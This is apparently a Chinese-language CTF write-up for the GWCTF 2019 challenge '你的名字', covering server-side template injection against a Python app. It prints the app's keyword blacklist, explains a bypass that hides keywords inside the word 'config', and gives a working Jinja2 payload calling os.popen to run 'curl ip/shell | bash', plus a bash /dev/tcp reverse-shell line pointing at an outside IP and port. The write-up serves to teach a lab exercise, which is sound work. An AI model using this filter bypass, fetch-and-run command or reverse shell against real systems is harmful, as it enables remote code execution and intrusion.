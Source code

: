 ##  [GWCTF 2019]你的名字



- ssti模版注入
- python 反弹shell

fuzz之后发现后后端应该是这样检测的

```python
blacklist = ['import', 'getattr', 'os', 'class', 'subclasses', 'mro', 'request', 'args', 'eval', 'if', 'for',
                 ' subprocess', 'file', 'open', 'popen', 'builtins', 'compile', 'execfile', 'from_pyfile', 'local',
                 'self', 'item', 'getitem', 'getattribute', 'func_globals', 'config']
for no in blacklist:
    while True:
        if no in s:
            s = s.replace(no, '')
        else:
            break
return s
```

由于是利用for语句循环，一个一个匹配，一个一个替换，所以我们只要用数组中的最后一个键值config，来绕过即可

比如iconfigf，会在最后的时候被替换为if

payload如下

```python
{% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclaconfigsses__()[59].__init__.func_glconfigobals.lineconfigcache.oconfigs.popconfigen('curl ip/shell | bash') %}1{% endiconfigf %}
```

由于buu环境要反弹shell有点麻烦，要开Apache2的服务，并且在/var/www/html/目录下写入文件shell，内容如下

```
bash >& /dev/tcp/120.53.240.186/7777 0>&1
```

然后curl重定向弹shell即可

